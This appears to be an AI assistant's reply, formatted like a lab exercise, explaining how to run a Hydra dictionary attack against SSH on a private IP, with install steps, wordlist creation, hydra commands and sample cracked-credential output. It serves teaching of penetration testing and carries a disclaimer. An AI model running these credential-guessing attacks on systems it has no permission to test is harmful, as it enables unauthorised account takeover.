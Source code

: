 Sure! Below is a structured explanation and implementation of a dictionary attack using Hydra, in the requested format:


---

🔹 Aim

To perform a dictionary attack using Hydra on a login service (e.g., SSH, FTP, or HTTP) in order to crack user credentials by attempting logins using a wordlist of possible passwords.


---

🔹 Algorithm

Dictionary Attack Algorithm with Hydra:

1. Target Identification: Choose the target IP address and service (like SSH, FTP, etc.).


2. Wordlist Selection: Use a dictionary file containing possible passwords (and optionally usernames).


3. Brute Force: Systematically try each combination of username and password from the wordlist(s) on the target service.


4. Response Analysis: Check responses from the server to determine which credentials are successful.


5. Result Logging: Log successful credentials if found.




---

🔹 Procedure

1. Install Hydra
If Hydra is not installed:

sudo apt update
sudo apt install hydra


2. Prepare Wordlists

Use existing wordlists (/usr/share/wordlists/rockyou.txt)

Or create your own:

echo -e "admin\nuser\njohn" > users.txt
echo -e "123456\npassword\nadmin123" > passwords.txt



3. Identify Target

Target IP: 192.168.1.10

Service: ssh

Port: 22



4. Run Hydra Command
Example for SSH with single username and a password list:

hydra -l admin -P passwords.txt ssh://192.168.1.10

Example with multiple usernames and passwords:

hydra -L users.txt -P passwords.txt ssh://192.168.1.10




---

🔹 Execution

Let’s say the command is:

hydra -L users.txt -P passwords.txt ssh://192.168.1.10

Hydra begins testing each username from users.txt with every password from passwords.txt on the SSH service at 192.168.1.10.


---

🔹 Output

Hydra outputs results like this:

[22][ssh] host: 192.168.1.10   login: john   password: admin123
[STATUS] attack finished for 192.168.1.10 (valid pair found)

This tells you that:

The username john

With password admin123

Was able to successfully log in via SSH on the target.



---

🔹 Result

Success: If Hydra finds the correct combination, you have successfully cracked the login credentials.

Failure: If no valid combination is found, you may need a larger wordlist or different attack approach (e.g., brute-force, timing attacks).



---

⚠️ Disclaimer

This is for educational and ethical testing purposes only. Unauthorized access to systems is illegal and unethical. Always have explicit permission before performing any kind of penetration testing.


---

Would you like a demo using a local SSH server or another service like FTP or HTTP login?
